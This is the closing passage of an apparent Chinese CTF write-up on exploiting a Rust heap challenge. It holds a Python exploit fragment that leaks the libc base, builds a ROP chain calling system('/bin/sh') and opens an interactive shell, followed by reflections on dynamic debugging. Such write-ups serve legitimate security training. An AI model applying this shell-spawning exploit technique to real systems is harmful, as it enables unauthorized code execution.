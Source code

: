 ```python
# dbg()
p.recvuntil("Content: ")
data = p.recvline()
data_str = data.decode("utf-8")
data_list = ast.literal_eval(data_str)
bytes_data = data_list[0:8]
byte_array = bytes(bytes_data)
libcbase = struct.unpack("<Q", byte_array)[0]-0x1988c0
print(hex(libcbase))

pop_rdi = libcbase+0x000000000010f75b
system = libcbase+libc.sym['system']
binsh = libcbase+next(libc.search(b"/bin/sh"))
ret=libcbase+0x2882f 
payload = p64(pop_rdi)+ p64(binsh) + p64(ret) + p64(system)
edit(0,payload)

p.interactive()
```

- 最后在本地打通，远程可能堆布局不太一样要调整一下

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-fef627ba9b72719e4f7fb3f97ccc81809544778c.png)

最后的思考
=====

这个题的rust堆非常奇怪，做出这道题几乎是用人工fuzz来测试每个函数的特性，来看发生了什么堆块变化。究其原因还是**rust的代码静态分析难度太大，同时函数包装非常多，没有符号表完全看不出来这个函数有什么作用，只好通过动态调试的方法来根据变化来进行攻击。**

不过rust pwn特点就是这样，静态分析困难，那就多采用动态分析的方法，一步步构造出exp。
